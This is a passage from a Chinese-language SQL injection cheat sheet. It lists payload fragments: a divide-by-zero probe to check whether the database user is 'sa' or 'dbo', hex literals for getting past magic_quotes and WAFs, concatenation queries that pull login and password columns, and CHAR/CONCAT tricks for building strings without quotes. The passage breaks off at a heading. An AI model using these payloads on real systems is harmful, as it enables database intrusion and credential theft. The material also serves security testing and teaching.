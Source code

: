 > `if ((select user) = 'sa' OR (select user) = 'dbo') select 1 else select 1/0`(S)

如果当前用户不是**"sa"或者"dbo"**,就会抛出一个**`divide by zero error`**。

### 整数(Integers)的使用

对于绕过十分有用，比如**magic_quotes() 和其他类似过滤器**，甚至是各种WAF。

*   `0xHEXNUMBER`(SM)
    
    (HEXNUMBER:16进制数） 你能这样使用16进制数：
    
    *   `SELECT CHAR(0x66)`(S)
        
    *   `SELECT 0x5045`(M) (这不是一个整数，而会是一个16进制字符串）
        
    *   `SELECT 0x50 + 0x45`(M) (现在这是整数了)
        

### 字符串操作

与字符串相关的操作。这对于构造一个不含有引号，用于绕过或探测数据库都非常的有用。

#### 字符串的串联

*   `+`(S)
    
    `SELECT login + '-' + password FROM members`
    
*   `||`(*MO)
    
    `SELECT login || '-' || password FROM members`
    

***关于MySQL的"||"**这个仅在ANSI模式下的MySQL执行，其他情况下都会当成'逻辑操作符'并返回一个0。更好的做法是使用`CONCAT()`函数。

*   `CONCAT(str1, str2, str3, ...)`(M)
    
    连接参数里的所有字符串 例：`SELECT CONCAT(login, password) FROM members`
    

### 没有引号的字符串

有很多使用字符串的方法，但是这几个方法是一直可用的。使用`CHAR()`(MS)和`CONCAT()`(M)来生成没有引号的字符串

*   `0x457578`(M) - 16进制编码的字符串
    
    `SELECT 0x457578`
    
    这在MySQL中会被当做字符串处理
    
*   在MySQL中使用16进制字符串的一个简单方式：`SELECT CONCAT('0x',HEX('c:\\boot.ini'))`
    
*   在MySQL中使用`CONCAT()`函数：`SELECT CONCAT(CHAR(75),CHAR(76),CHAR(77))`(M)
    
    这会返回'KLM'
    
*   `SELECT CHAR(75)+CHAR(76)+CHAR(77)`(S)
    
    这会返回'KLM'
    

#### 使用了16进制的注入攻击样例

